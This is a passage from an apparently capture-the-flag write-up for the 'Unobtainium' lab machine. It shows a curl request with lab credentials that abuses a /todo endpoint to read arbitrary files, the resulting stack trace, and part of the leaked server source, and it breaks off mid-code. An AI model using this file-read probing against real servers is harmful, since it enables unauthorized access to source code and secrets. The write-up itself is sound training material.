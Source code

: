 The next thing was trying to mess with the todo request to read other files. Tried a completely random name (File: thisisnotafile) and the connection just hanged until it eventually timed out. But when i tried an empty file name something interesting happened <br>

Note: i used burp repeater to try stuff out but the curl command below would also trigger the same error
```bash
cmd: curl -X POST --data '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : ""}' -H "Content-Type: application/json" http://unobtainium.htb:31337/todo

Error: ENOENT: no such file or directory, open
&nbsp; &nbsp;at Object.openSync (fs.js:476:3)
&nbsp; &nbsp;at Object.readFileSync (fs.js:377:35)
&nbsp; &nbsp;at /usr/src/app/index.js:86:41
&nbsp; &nbsp;at Array.forEach (&lt;anonymous&gt;)
&nbsp; &nbsp;at /usr/src/app/index.js:84:36
&nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
&nbsp; &nbsp;at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
&nbsp; &nbsp;at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
&nbsp; &nbsp;at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
&nbsp; &nbsp;at /usr/src/app/node_modules/express/lib/router/index.js:281:22
```

We can see that it errors out in the **/usr/src/app/index.js** file but trying to read it just hangs. Usually, even when running from the same directory, the paths present in error are just absolute which made me try the file name of **index.js** only ! And it payed off !!! 

```json
{"ok":true,"content":"var root = require(\"google-cloudstorage-commands\");
-- snip-- 
``` 

The code extracted from the json
```js
var root = require("google-cloudstorage-commands");
const express = require('express');
const { exec } = require("child_process");     
const bodyParser = require('body-parser');     
const _ = require('lodash');                                                                  
const app = express();
var fs = require('fs');
                                                                                              
const users = [                                                                               
  {name: 'felamos', password: 'Winter2021'},
  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},      
];

let messages = [];                             
let lastId = 1;                                
                                                                                              
function findUser(auth) {                                                                     
  return users.find((u) =>                                                                    
    u.name === auth.name &&                                                                   
    u.password === auth.password);                                                            
}                                    
                                               
app.use(bodyParser.json());                                                                   
                                               
app.get('/', (req, res) => {                   
  res.send(messages);                                                                         
});                                                                                           
                                                                                              
app.put('/', (req, res) => {   
  const user = findUser(req.body.auth || {});                                                 
```